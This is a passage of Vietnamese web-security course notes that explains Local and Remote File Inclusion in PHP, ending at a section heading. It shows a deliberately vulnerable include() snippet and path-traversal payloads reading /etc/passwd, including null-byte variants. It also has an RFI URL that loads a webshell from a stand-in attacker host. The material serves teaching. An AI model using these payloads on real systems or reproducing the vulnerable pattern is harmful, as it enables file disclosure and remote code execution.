

repository: vuongdat67/silver-happiness · page: posts/course/se5/nt213/L6/index.html · generator: mkdocs

# Bài 6: File Inclusion & OS Command Injection

---

## 1. File Inclusion

### 1.1. Giới thiệu

File Inclusion là một lớp lỗ hổng xuất hiện khi ứng dụng web sử dụng **tham số từ request của người dùng** để quyết định file nào sẽ được load hoặc thực thi phía server. Nếu không có cơ chế kiểm tra đầu vào, kẻ tấn công có thể:

- Buộc server hiển thị nội dung của file tùy ý (file hệ thống, file cấu hình...)
- Buộc server thực thi mã độc trong file do kẻ tấn công kiểm soát

Ví dụ điển hình trong PHP, các hàm sau là nguyên nhân trực tiếp:

```php
include();
require();
include_once();
require_once();
```

Khi ứng dụng viết kiểu này mà không kiểm tra `$file`:

```php
$file = $_GET['file'];
include('directory/' . $file);
```

Kẻ tấn công chỉ cần truyền vào URL:

```
http://example.com/?file=../../../../etc/passwd
```

---

### 1.2. Phân loại

=== "Local File Inclusion (LFI)"

    **File nằm trên chính web server.**

    Kẻ tấn công thao túng tham số để trỏ đến các file nội bộ trên hệ thống mà lẽ ra không được phép truy cập.

    **Ví dụ khai thác:**

    ```
    /vulnerable.php?language=../../../../../etc/passwd
    ```

    Kỹ thuật `../` (dot-dot-slash) cho phép leo lên các thư mục cha, còn gọi là **Directory Traversal** hay **Path Traversal**.

    **Các biến thể:**

    ```
    # Dùng ký tự NULL byte để bỏ phần mở rộng file (PHP < 5.3.4)
    /vulnerable.php?language=C:\notes.txt%00

    # Kết hợp với file đã upload lên server
    /vulnerable.php?language=C:\ftp\upload\exploit

    # Trên Linux leo thư mục
    /vulnerable.php?language=../../../../../../etc/passwd%00
    ```

    !!! warning "Tại sao `%00` (NULL byte) lại nguy hiểm?"
        Trong các phiên bản PHP cũ (trước 5.3.4), khi PHP xử lý chuỗi, ký tự NULL `\0` đánh dấu kết thúc chuỗi. Nếu server tự động nối thêm `.php` vào cuối tham số, kẻ tấn công dùng `%00` để "cắt đứt" phần `.php` đó, khiến server include đúng file `.txt` hoặc file không có phần mở rộng.

=== "Remote File Inclusion (RFI)"

    **File nằm bên ngoài web server**, trên một server do kẻ tấn công kiểm soát.

    Đây là dạng nguy hiểm hơn vì file được include có thể chứa **server-side code** (PHP, JSP...), dẫn đến **Remote Code Execution (RCE)** – thực thi lệnh tùy ý từ xa.

    **Ví dụ:**

    ```
    /vulnerable.php?language=http://evil.example.com/webshell.txt?
    ```

    !!! danger "Điều kiện để khai thác RFI trong PHP"
        Trong file `php.ini`, server phải bật:
        ```ini
        allow_url_fopen = On
        allow_url_include = On
        ```
        Các phiên bản PHP hiện đại mặc định tắt `allow_url_include`, do đó RFI khó khai thác hơn LFI trên môi trường hiện đại.

---

### 1.3. File Inclusion trong PHP – Chi tiết
